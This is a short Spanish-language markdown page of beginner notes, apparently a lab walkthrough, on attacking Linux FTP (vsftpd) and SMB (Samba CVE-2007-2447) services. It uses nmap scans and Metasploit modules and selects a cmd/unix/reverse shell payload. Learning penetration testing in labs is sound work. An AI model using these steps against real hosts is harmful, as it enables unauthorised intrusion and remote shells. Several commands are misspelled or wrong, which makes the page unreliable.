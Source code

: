 # Vulnerabilidades

aqui veremos algunas vulnerabilidades de algunos sistemas

### Listas 

- FTP en linux
- SMB en linux

# FTP en linux

lo primeros que haremos es escanear los puertos con nmap y vemos los puertos que estan abiertos esta abierto el 21,
despues usaremos el search vsftp para comprobar el servicio en funcionamiento

y nos apareceran las opciones que podemos usar, en mi caso utilizare la segunda opcion, por lo tanto escribo use 1

y nos responde que no hay payloads y escribimos options ahora utilizaremos el modulo rhost escribiendo set RHOST [ip del objetivo]
podemos utilizar options para ver que podemos hacer a continuacion usaremos el comando xploit
y entrara en el FTP

# SMB en linux
voveremos a analizar los puertos y viendo que tenemos el puerto 445 abierto vamos atacarlo (el servicio de SMB)

podemos hacer un escaneo en profundidad con "nmap -sV -p 445 [ip Objetivo]" sabiendo esto vamos a iniciar la mfsconsola

ejecutaremos un auxilar de smb con el comando "use auxiliary/scanner/smb/smb_version"
ahora utilizamos el comando set hosts [ip objetivo]

y usaramos search para buscar el codigo de la vulnerabilidad "search cve:2007-2447"
escribimos el exploit que nosindica en los modulos
ponemos "show options"
ahora con "set rhost [ip objetivo]"
y "set report 445"
y "show options"
y "show payloads" para ver los payloads y usaremos el cmd/unix/reverse
y ya tenemos todo preparado para ejecutar el exploit
